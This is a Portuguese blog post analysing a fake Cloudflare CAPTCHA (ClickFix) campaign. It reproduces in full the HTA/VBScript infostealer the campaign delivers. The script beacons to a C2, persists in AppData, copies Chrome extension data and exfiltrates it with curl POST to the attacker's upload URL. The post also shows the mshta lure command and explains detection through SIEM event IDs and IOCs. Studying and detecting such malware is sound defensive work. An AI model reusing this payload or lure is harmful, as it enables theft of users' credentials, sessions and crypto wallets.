## 1. Introdução

O Fake CAPTCHA ou ClickFix é um método empregado em diversas campanhas de phishing para entregar mineradores e malwares em diversas máquinas mundo afora. Em um grupo do _WhatsApp_, um colega postou uma foto de um site que tinha o CAPTCHA para validação e esse site de validação, ao final da execução instalava um minerador. Na curiosidade, fui pesquisar outros além de um instalador de minerador e encontrei o que vamos analisar agora.

## 2. Análise superficial do site

Naturalmente, a maioria desse tipo de campanha tem como origem uma página infectada ou até mesmo publicidades para induzir o usuário a acessar uma página falsa e executar o _payload_ da página.

Eu encontrei diversos sites nesse mesmo _modus operandi_:

<figure style="text-align: center;">
  
  <figcaption>
    <i><strong>Figura 1.</strong> Identificação de outros sites com o mesmo padrão no FOFA.</i>
  </figcaption>
</figure>

Mas vou focar em um específico que achei interessante. Um site falso simulando a página de segurança contra _robots_ da CloudFlare:

<figure style="text-align: center;">
  
  <figcaption>
    <i><strong>Figura 2.</strong> Site falso da CloudFlare.</i>
  </figcaption>
</figure>

E quando clicado para verificar o robot, ele solicita a execução via comando executável:

<figure style="text-align: center;">
  
  <figcaption>
    <i><strong>Figura 3.</strong> Site falso da CloudFlare solicitando execução.</i>
  </figcaption>
</figure>

Que nos mostra o seguinte comando:

```
# NÃO EXECUTAR
mshta hxxps://cloudflair[.]org/bb.hta # UІD: 873310 – Ι аm not а robot – Vеrіfу СΑРΤСНА ѕеquеnсе
```
Isso é só mais uma forma de enganar o usuário achando que tá fazendo uma validação real.

A execução do comando é bloqueado pelo Windows Defender, se ativo:

<figure style="text-align: center;">
  
  <figcaption>
    <i><strong>Figura 4.</strong> Código executado bloqueado pelo Windows Defender.</i>
  </figcaption>
</figure>

Analisando o código-fonte, vemos que ele está embutido em um grande iframe onde se encontra o comando acima:

<figure style="text-align: center;">
  
  <figcaption>
    <i><strong>Figura 5.</strong> Código malicioso em um iframe.</i>
  </figcaption>
</figure>

Nós também encontramos um script de rotina:

<figure style="text-align: center;">
  
  <figcaption>
    <i><strong>Figura 6.</strong> Código de rotina. Esses scripts são apenas o apresentável para o usuário.</i>
  </figcaption>
</figure>

Não entendo muito de Javascript, então pedi a IA para me explicar o que representa esse script.

O script contém duas partes distintas.

Primeira parte (`checkExecution`):

- Cria uma função `checkExecution()` que faz uma requisição para "hxxps://upload[.]cloudflair.org/checkbeacon".
- Esta função verifica periodicamente (a cada 2 segundos) se alguma ação foi executada com sucesso.
- Quando a resposta do servidor indica `data.executed` como verdadeiro:
  - Para o intervalo de verificações.
  - Oculta elementos da interface chamados "`iframe-challange`" e "`ver`".
  - Exibe um elemento chamado "`challenge-success-text`".

Em resumo, esta parte está verificando periodicamente se um desafio de segurança foi concluído com sucesso.

Segunda parte (personalização da página):

- Obtém o nome de domínio atual do navegador (ou usa "localhost" como fallback).
- Atualiza elementos na página com este nome de domínio:
  - Define o texto de um elemento com ID "`domain-title`".
  - Atualiza um elemento com ID "`faCCe3`" para mostrar uma mensagem sobre verificação de segurança.
  - Altera o título da página para "Just a moment - [nome do domínio]".

Se ele deveria alterar alguma coisa, para simular que a validação funcionou, então o código não funcionou 🤣.

## 3. Da análise de execução

Quando fazemos um `curl` para o arquivo `bb.hta`, o que temos é o seguinte:

```sh
#curl hxxps://cloudflair[.]org/bb.hta
<html>
<head>
  <title>Verification</title>
  <HTA:APPLICATION
    ID="Verification"
    BORDER="none"
    BORDERSTYLE="none"
    CAPTION="no"
    SHOWINTASKBAR="no"
    SINGLEINSTANCE="yes"
    WINDOWSTATE="minimize"
  />
  <script language="VBScript">

    Option Explicit

    Dim shell, fso, appData, targetDir, scriptPath, tempZip, userProfile
    Dim chromeRoot, profileDirs, folder, uploadUrl, tempCopyDir


    Sub Window_OnLoad

        Dim beaconUrl
        beaconUrl = "https://upload.cloudflair.org/beacon"
        Set shell = CreateObject("WScript.Shell")
        shell.Run "cmd /c curl " & beaconUrl, 0, True

        On Error Resume Next
        window.style.display = "none"
        window.resizeTo 0,0
        window.moveTo -1000,-1000
        Set fso = CreateObject("Scripting.FileSystemObject")

        userProfile = shell.ExpandEnvironmentStrings("%USERPROFILE%")
        appData = shell.ExpandEnvironmentStrings("%APPDATA%")
        targetDir = appData & "\Microsoft\Windows\"
        scriptPath = targetDir & "agent.hta"
        ' Generate dynamic zip filename
        Dim computerName, timestamp
        computerName = shell.ExpandEnvironmentStrings("%COMPUTERNAME%")
        timestamp = Year(Now()) & "-" & _
            Right("0" & Month(Now()), 2) & "-" & _
            Right("0" & Day(Now()), 2) & "_" & _
            Right("0" & Hour(Now()), 2) & "-" & _
            Right("0" & Minute(Now()), 2) & "-" & _
            Right("0" & Second(Now()), 2)
        tempZip = targetDir & computerName & "_" & timestamp & ".zip"

        tempCopyDir = targetDir & "ext_copy"
        uploadUrl = "https://upload.cloudflair.org/upload"

 
        If Not fso.FolderExists(targetDir) Then
            fso.CreateFolder(targetDir)
         End If

        If LCase(document.location.pathname) <> LCase(scriptPath) Then
            fso.CopyFile document.location.pathname, scriptPath, True
         Else
         End If

        chromeRoot = userProfile & "\AppData\Local\Google\Chrome\User Data"
        If Not fso.FolderExists(chromeRoot) Then
             Exit Sub
        End If

        ' Clean old copy dir
        If fso.FolderExists(tempCopyDir) Then
            shell.Run "cmd /c rmdir /s /q """ & tempCopyDir & """", 0, True
        End If
        fso.CreateFolder(tempCopyDir)

        Set profileDirs = fso.GetFolder(chromeRoot).SubFolders
        For Each folder In profileDirs
            If LCase(folder.Name) = "default" Or LCase(Left(folder.Name, 7)) = "profile" Then
                Dim extPath, destPath, robocopyCmd
                extPath = folder.Path & "\Local Extension Settings"
                If fso.FolderExists(extPath) Then
                    destPath = tempCopyDir & "\" & folder.Name
                    robocopyCmd = "cmd /c robocopy """ & extPath & """ """ & destPath & """ /E /R:1 /W:1"
                    shell.Run robocopyCmd, 0, True
                End If
            End If
        Next

        ' Compress into zip
        Dim psCommand
        psCommand = "powershell -NoLogo -NonInteractive -Command " & _
            """Compress-Archive -Path '" & tempCopyDir & "\*' -DestinationPath '" & tempZip & "' -Force"""

         shell.Run psCommand, 0, True

        If fso.FileExists(tempZip) Then
            Dim curlCommand
            curlCommand = "cmd /c curl -X POST -F ""file=@" & tempZip & """ " & uploadUrl
            shell.Run curlCommand, 0, True
        Else

         End If
        window.close
    End Sub

  </script>
</head>
<body></body>
</html>
```

Primeiro, vamos detalhar as partes relevantes do que esse arquivo faz e depois vamos identificar logs que contribuam para detecção desse cenário.

### 3.1. Overview

Obviamente esse é um código malicioso em forma de aplicação HTA (HTML Application) que rouba dados locais do navegador Chrome e envia os dados para um servidor remoto. 

Este `.hta` faz o seguinte:

- Executa silenciosamente (minimizado, sem barra de título, fora da tela).
- Rouba dados das extensões do Chrome (para potenciais navegadores que armazenam dados de senhas, cartões e que mais dá pra salvar no navegador).
- Compacta tudo em um `.zip`.
- Envia para um servidor remoto via `curl -X POST`.

### 3.2. Header

```vb {linenos=table linenostart=5}
<HTA:APPLICATION
  ID="Verification"
  BORDER="none"
  BORDERSTYLE="none"
  CAPTION="no"
  SHOWINTASKBAR="no"
  SINGLEINSTANCE="yes"
  WINDOWSTATE="minimize"
/>
```
Esconde a janela, não aparece na barra de tarefas e minimiza automaticamente. Isso permite que o HTA execute sem alertar visualmente o usuário.

### 3.3. Início do VBScript

```vb {linenos=table linenostart=18}
Dim shell, fso, appData, targetDir, scriptPath, tempZip, userProfile
Dim chromeRoot, profileDirs, folder, uploadUrl, tempCopyDir
```
Declaração das variáveis usadas na lógica do malware.

### 3.4. Evento `Window_OnLoad`

```vb {linenos=table linenostart=25}
beaconUrl = "https://upload.cloudflair.org/beacon"
Set shell = CreateObject("WScript.Shell")
shell.Run "cmd /c curl " & beaconUrl, 0, True
```
Essa função roda automaticamente quando o HTA carrega:
- Envia um `beacon`[^1] para `hxxps://upload[.]cloudflair.org/beacon`, notificando que a vítima abriu o malware.
- É pra notificar no _back-end_ do C2 uma nova vítima.

### 3.5. Definição de variáveis e destino

```vb {linenos=table linenostart=35}
userProfile = shell.ExpandEnvironmentStrings("%USERPROFILE%")
appData = shell.ExpandEnvironmentStrings("%APPDATA%")
targetDir = appData & "\Microsoft\Windows\"
scriptPath = targetDir & "agent.hta"
' Generate dynamic zip filename
Dim computerName, timestamp
computerName = shell.ExpandEnvironmentStrings("%COMPUTERNAME%")
timestamp = Year(Now()) & "-" & _
    Right("0" & Month(Now()), 2) & "-" & _
    Right("0" & Day(Now()), 2) & "_" & _
    Right("0" & Hour(Now()), 2) & "-" & _
    Right("0" & Minute(Now()), 2) & "-" & _
    Right("0" & Second(Now()), 2)
tempZip = targetDir & computerName & "_" & timestamp & ".zip"

tempCopyDir = targetDir & "ext_copy"
uploadUrl = "https://upload.cloudflair.org/upload"
```
- Cria uma cópia de si mesmo em `\AppData\Roaming\Microsoft\Windows\`.
- O nome `agent.hta` é escolhido para parecer um componente legítimo.
- Essa parte permite a persistência do malware no sistema.
- Cria uma pasta chamada `ext_copy` onde ficam armazenados os dados para compressão e envio para o C2.



Tecnicamente, com base no script, o arquivo <code>agent.hta</code> deveria ter sido gerado no meu server para persistência, mas não encontrei evidências dele no server nem via SIEM.


<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 7.</strong> Execução do payload malicioso, compressão e pasta criada.</i></figcaption>
</figure>

### 3.6. Localiza os dados do Chrome

```vb {linenos=table linenostart=63}
chromeRoot = userProfile & "\AppData\Local\Google\Chrome\User Data"
If Not fso.FolderExists(chromeRoot) Then
     Exit Sub
End If
```
- Verifica se o Chrome está instalado.
- Se não estiver, encerra a execução.

### 3.7. Apaga cópias antigas e cria nova pasta temporária

```vb {linenos=table linenostart=69}
If fso.FolderExists(tempCopyDir) Then
    shell.Run "cmd /c rmdir /s /q """ & tempCopyDir & """", 0, True
End If
fso.CreateFolder(tempCopyDir)
```
- Remove e recria a pasta temporária onde será copiado o conteúdo.

### 3.8. Copia dados das extensões do Chrome

```vb {linenos=table linenostart=74}
Set profileDirs = fso.GetFolder(chromeRoot).SubFolders
For Each folder In profileDirs
    If LCase(folder.Name) = "default" Or LCase(Left(folder.Name, 7)) = "profile" Then
        Dim extPath, destPath, robocopyCmd
        extPath = folder.Path & "\Local Extension Settings"
        If fso.FolderExists(extPath) Then
            destPath = tempCopyDir & "\" & folder.Name
            robocopyCmd = "cmd /c robocopy """ & extPath & """ """ & destPath & """ /E /R:1 /W:1"
            shell.Run robocopyCmd, 0, True
        End If
    End If
Next
```
Essa parte é praticamente o coração desse arquivo malicioso. Aqui ele:

- Varre os perfis do Chrome.
- Foca especificamente no diretório `Local Extension Settings`.
- Copia tudo com o comando do `robocopy`.

Esse diretório é o alvo principal, porque aqui é onde se armazena as extensões e, geralmente, extensões de algum serviço, pode armazenar senhas, tokens ou carteiras de criptomoedas ou dados de sessão.

Um outro ClickFix que eu analisei, a única finalidade era mineração.

### 3.9. Compacta tudo em um arquivo `.zip`

```vb {linenos=table linenostart=89}
psCommand = "powershell -NoLogo -NonInteractive -Command " & _
  """Compress-Archive -Path '" & tempCopyDir & "\*' -DestinationPath '" & tempZip & "' -Force"""
shell.Run psCommand, 0, True
```
Usa PowerShell para gerar um `.zip` com todos os dados coletados.

### 3.10. Exfiltra os dados

```vb {linenos=table linenostart=96}
curlCommand = "cmd /c curl -X POST -F ""file=@" & tempZip & """ " & uploadUrl
shell.Run curlCommand, 0, True
```
Envia os dados coletados para: `hxxps://upload[.]cloudflair.org/upload` via `curl -F`.

## 4. Da identificação via SIEM

### 4.1. Identificação da execução inicial do `mshta`

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 8.</strong> Identificação pelo EventID 1 e 4688.</i></figcaption>
</figure>

### 4.2. Identificação da execução de beacon

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 9.</strong> Identificação pelo EventID 1 e 4688.</i></figcaption>
</figure>

### 4.3. Identificação da consulta DNS

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 10.</strong> Identificação pelo EventID 22 do Sysmon.</i></figcaption>
</figure>

### 4.4. Identificação da criação, cópia e compressão

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 11.</strong> Identificação pelo EventID 1 do Sysmon e EventID 4688 do Windows.</i></figcaption>
</figure>

A identificação da compressão ocorre pelo `EventID 4688` porque o processo do PowerShell é iniciado, mas os logs do PowerShell também identifica.

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 12.</strong> Identificação da compressão pelo EventID 4104 do PowerShell.</i></figcaption>
</figure>


### 4.5. Exfiltração dos dados

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 13.</strong> Exfiltração dos dados.</i></figcaption>
</figure>

Também podemos relacionar o `EventID 22` do Sysmon que identifica a URL sendo consultada.

### 4.6. Curiosidades

Podemos identificar uma cópia do `bb.hta` via PowerShell com o comando:

```powershell
Get-ChildItem -Path C:\ -Filter "*.hta" -Recurse -ErrorAction SilentlyContinue -Force | % { $_.fullname }
```

Com esse comando, podemos identificar o arquivo:

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 14.</strong> Identificando o bb.hta.</i></figcaption>
</figure>

A curiosidade mais louca é que ele o encontra em uma pasta que o próprio Windows não mostra pra nós e nem é pesquisável:

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 15.</strong> INetCache não identificado na pesquisa.</i></figcaption>
</figure>

Observe que o arquivo está no diretŕio `INetCache`, mas ele não é visível na pesquisa. Somente se adicionarmos a flag `-Force` é que ele aparece, mas nem no explorer ele é visto, somente via terminal.

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 16.</strong> INetCache sendo listado.</i></figcaption>
</figure>
<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 17.</strong> INetCache sendo listado com a flag -Force.</i></figcaption>
</figure>

## 5. IOCs

- hxxps://cloudflair[.]org/bb.hta
- hxxps://upload[.]cloudflair.org/checkbeacon
- 185[.]193.126.169
- agent.hta
- Hash SHA256 do bb[1].hta: 3EAE4075BA0947A9547DE795D8A2A579F12E6A5A3F2817E4163AF0E674301E00

## 6. Conclusão

Bom, é isso. Esse modelo de exploração que analisamos aqui é só uma forma de roubo e exfiltração de dados, com um foco aparente de roubo de credenciais. Além de mostrar como a engenharia social é parte central desse tipo de ataque, buscamos tentar identificar todo o rastreio via logs.

Uma vez que o ambiente tem todos os logs possíveis identificáveis no SIEM, fica fácil acompanhar o rastro do que foi feito, por mais que conseguimos ver o arquivo completo, muitas vezes não temos essa opção fácil para entender o que o script está fazendo e só contamos com a forense e logs, por isso, logs são importantes.

Por fim, fica o alerta: a combinação entre curiosidade do usuário, páginas com aparência legítima e técnicas de execução silenciosa forma um vetor de ataque poderíssimo e cada vez mais recorrente. Cabe a nós, profissionais de segurança, entender profundamente essas técnicas para desenvolver defesas mais eficazes, educar usuários e fortalecer a postura de defesa da empresa.

No fim das contas, vale sempre a máxima: desconfie do CAPTCHA que pede demais. Especialmente se ele te pedir pra rodar algo no seu sistema.




Por favor, entre em contato comigo pelo meu <a href="https://www.linkedin.com/in/sandsoncosta">LinkedIn</a>.<br>Vou ficar muito contente em receber um feedback seu.


[^1]: Em um contexto de malware ou C2 (Command & Control), um `beacon` é uma comunicação feita por uma máquina comprometida para o servidor do atacante, com o objetivo de sinalizar que está ativa ou como um "sinal de vida (Healthy)", para confirmar que a infecção foi bem-sucedida. Além de confirmar a presença do malware, ele pode enviar informações básicas do sistema e aguardar comandos. No nosso caso, o `beacon` é enviado quando o script executa um `curl` para o C2 hxxps://upload[.]cloudflair.org/beacon, funcionando como um "check-in" inicial informando que o malware foi ativado/executado com sucesso.